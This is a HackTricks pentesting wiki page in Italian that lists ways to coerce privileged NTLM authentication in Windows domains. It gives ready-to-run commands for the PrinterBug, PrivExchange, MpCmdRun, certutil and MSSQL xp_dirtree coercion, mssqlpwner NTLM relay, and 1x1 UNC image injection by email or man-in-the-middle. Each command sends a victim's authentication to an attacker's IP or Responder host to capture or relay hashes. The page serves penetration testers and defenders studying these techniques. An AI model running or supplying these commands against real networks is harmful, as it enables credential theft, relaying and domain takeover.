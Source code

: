 # Forzare l'autenticazione privilegiata NTLM

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) è una **collezione** di **trigger di autenticazione remota** codificati in C# utilizzando il compilatore MIDL per evitare dipendenze di terze parti.

## Abuso del servizio Spooler

Se il servizio _**Print Spooler**_ è **abilitato**, puoi utilizzare alcune credenziali AD già note per **richiedere** al server di stampa del Domain Controller un **aggiornamento** sui nuovi lavori di stampa e semplicemente dirgli di **inviare la notifica a un sistema arbitrario**.\
Nota che quando la stampante invia la notifica a sistemi arbitrari, deve **autenticarsi** contro quel **sistema**. Pertanto, un attaccante può far sì che il servizio _**Print Spooler**_ si autentichi contro un sistema arbitrario, e il servizio **utilizzerà l'account del computer** in questa autenticazione.

### Trovare server Windows nel dominio

Utilizzando PowerShell, ottieni un elenco di macchine Windows. I server sono solitamente una priorità, quindi concentriamoci lì:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Trovare i servizi Spooler in ascolto

Utilizzando un @mysmartlogin (Vincent Le Toux) leggermente modificato [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), verifica se il Servizio Spooler è in ascolto:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
Puoi anche usare rpcdump.py su Linux e cercare il protocollo MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Chiedi al servizio di autenticarsi contro un host arbitrario

Puoi compilare[ **SpoolSample da qui**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
o usa [**dementor.py di 3xocyte**](https://github.com/NotMedic/NetNTLMtoSilverTicket) o [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) se sei su Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Combinazione con Delegazione Illimitata

Se un attaccante ha già compromesso un computer con [Delegazione Illimitata](unconstrained-delegation.md), l'attaccante potrebbe **far autenticare la stampante contro questo computer**. A causa della delegazione illimitata, il **TGT** dell'**account computer della stampante** sarà **salvato in** **memoria** del computer con delegazione illimitata. Poiché l'attaccante ha già compromesso questo host, sarà in grado di **recuperare questo ticket** e abusarne ([Pass the Ticket](pass-the-ticket.md)).

## Forzare l'autenticazione RCP

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

L'attacco `PrivExchange` è il risultato di un difetto trovato nella **funzione `PushSubscription` di Exchange Server**. Questa funzione consente al server Exchange di essere forzato da qualsiasi utente di dominio con una casella di posta ad autenticarsi su qualsiasi host fornito dal client tramite HTTP.

Per impostazione predefinita, il **servizio Exchange viene eseguito come SYSTEM** e ha privilegi eccessivi (specificamente, ha **privilegi WriteDacl sull'aggiornamento cumulativo del dominio pre-2019**). Questo difetto può essere sfruttato per abilitare il **rilascio di informazioni a LDAP e successivamente estrarre il database NTDS del dominio**. Nei casi in cui il rilascio a LDAP non sia possibile, questo difetto può comunque essere utilizzato per rilasciare e autenticarsi su altri host all'interno del dominio. Lo sfruttamento riuscito di questo attacco concede accesso immediato all'Amministratore di Dominio con qualsiasi account utente di dominio autenticato.

## All'interno di Windows

Se sei già all'interno della macchina Windows, puoi forzare Windows a connettersi a un server utilizzando account privilegiati con:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
Or use this other technique: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

È possibile utilizzare certutil.exe lolbin (binary firmato da Microsoft) per forzare l'autenticazione NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

Se conosci l'**indirizzo email** dell'utente che accede a una macchina che vuoi compromettere, potresti semplicemente inviargli un'**email con un'immagine 1x1** come
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
e quando lo apre, cercherà di autenticarsi.

### MitM

Se puoi eseguire un attacco MitM su un computer e iniettare HTML in una pagina che visualizzerà, potresti provare a iniettare un'immagine come la seguente nella pagina:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Cracking NTLMv1

Se riesci a catturare [le sfide NTLMv1 leggi qui come crackerle](../ntlm/#ntlmv1-attack).\
&#xNAN;_&#x52;icorda che per crackare NTLMv1 devi impostare la sfida di Responder su "1122334455667788"_

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}

